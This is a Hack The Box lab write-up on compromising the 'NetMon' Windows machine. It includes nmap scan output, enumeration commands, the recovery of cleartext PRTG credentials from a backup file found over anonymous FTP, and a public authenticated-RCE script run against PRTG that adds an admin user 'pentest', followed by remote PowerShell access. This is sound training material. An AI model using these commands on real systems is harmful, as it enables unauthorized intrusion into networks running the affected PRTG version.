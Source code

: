 ```yaml
---
title: "HTB - NetMon"
date: 2021-02-12T14:56:25+01:00
draft: true
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/02/NetMon_Logo.png"
---
```

An easy box according to HTB ranking and a not so easy one according to [this site](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). For me, it was really painful. Let me overshare!

## Recon

Quick recon based on HTB logo and info :

* Windows box ;
* Misc info : web, PowerShell, file misconfiguration ;
* Probably runs PRTG NetWork Monitor tool.

## Enum

```text
sudo nmap -T4 -A -p- -oA nmap $target_ip
```
```text
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-12 15:25 CET
Nmap scan report for $target_ip
Host is up (0.056s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=2/12%OT=21%CT=1%CU=31327%PV=Y%DS=2%DC=T%G=Y%TM=6026908
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%TS=A)SEQ
OS:(SP=105%GCD=1%ISR=10B%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M54DNW8ST11%O2=M54
OS:DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11)WIN(W
OS:1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000)ECN(R=Y%DF=Y%T=80%W=2000%
OS:O=M54DNW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%
OS:T=80%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD
OS:=0%Q=)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-12T14:28:15
|_  start_date: 2021-02-12T14:02:36

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   59.00 ms 10.10.14.1
2   59.12 ms $target_ip

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.62 seconds
```
We find a few interesting services :

* FTP server (21/tcp) : Microsoft ftpd, with anonymous login enabled ;
* Web server (80/tcp) : Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor) ;
* Remote powershell (5985/tcp) ;
* SMB and Netbios related services on ports 135/tcp, 139/tcp and 445/tcp ;
* HTTPAPI httpd 2.0 (SSDP/UPnP) on 47001/tcp ;
* Several high ports fo RPC.

Nikto scan reveals `PRTG` version `18.1.37.13946`, and the webpage displays a login page.

![Netmon Login](/images/2021/02/NetMon_PRTG_Login.png)

Default and common credentials won't work here.

Looking up `PRTG` on `searchploit` won't give us much : an authenticated RCE and a DoS exploit... and yes it works! But as fas I know, it is useless in our case. It means we'll have to dig deeper. Before that, let's continue to sratch the surface for other services, we are looking for an easy win! :)

We can also enumerate smb shares :

```text
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse $target_ip
```
but nothing comes up!

Let's explore the FTP server. Here, we have access to quite a lot of files such as :

* Program Files ;
* Program Files (x86) (we now know that our OS is 64 bits) ;
* Users, Windows, Inetpub, etc.

In the `Users\Public` folder we will find our user flag.

![NetMon User Flag](/images/2021/02/NetMon_user_flag.png)

Now, I am guessing that the most relevant folder will be `/Program Files (x86)/PRTG Network Monitor` in which we might find usefull info such as installation logs, and maybe even credentials if we are super lucky.

So far, we haven't found much... My guess is still with PRTG logs or sometthing similar. I will then explore PRTG folder for antything intesresting, and also common places we might have access to.

In order to make exploration more easier, I am using `FileZilla`.

## Exploitation

Enumerating username in the "Forgot password" page, tells us that the default `ptrgadmin` user exists :

![NetMon Forgot Password OK](/images/2021/02/NetMon_forgot_pass_OK.png)

Notice the slightly different error message when testing with a fake username (username == `zjdpdjpo`) :

![NetMon Forgot Password NOK](/images/2021/02/NetMon_forgot_pass_NOK.png)

While researching on internet where PRTG stores its credentials, I came across a few pages where it seems that our version leaks clear text password in the `ProgramData` folder. Now, I tried to access this folder from my FTP client and could't do it... I have been stuck here for HOURS! So I cheated, and checked official walkthrough. It turns out, I made a typo... and one can access the said folder and get some juicy files, especially `PRTG Configuration.old.bak`. Inside this file, we'll find Graal (or, do we?) :

![NetMon Credentials](/images/2021/02/NetMon_credentials.png)

Once agan, and I have no idea why this time (probably another typo?) I also went stuck for too long. The password in the backup file ends in 2018, but unfortunately it doesn't work. One can assume it is an old password, and the year has changed, so has the password. Hence, I tried to replace the year with 2019, 2020, 2021 and even 2022 (current year + 1)... Nothing worked... I was really feeling down and cheated, again. It happens that the second password I tested was the correct one! I tried it again, and this time, it worked and I was finally inside the admin panel!

Now that we are authenticated, it is finally time to check our [Authenticated RCE we found earlier](https://www.exploit-db.com/exploits/46527).

We need to grab our authenticated cookie, `Burp Suite` can do that easily, then run the following command :

```text
./prtg-exploit.sh -u http://$target_ip -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1"
```
Once it is done, the script should have created a new admin user called `pentest`.

Now, remember we also found a remote powershell running? Time to use it! I found that using a Powershell's docker was pretty easy :

```text
docker run -it  quickbreach/powershell-ntlm
```

From here, we connect to our remote machine :

```text
Enter-PSsession -ComputerName $target_ip -Authentication Negotiate -Credential pentest
```

One we are in, we simply browse to the flag dir and display it :

![NetMon Root Flag](/images/2021/02/NetMon_root_flag.png)

## Conclusion

While everything seemed pretty straightforward I spent way more time than I care to admit for stupid mistakes on my side. Which in the end made it a very exhausting box for me. Once again, we saw how nasty a few misconfiguration + CVE can be!

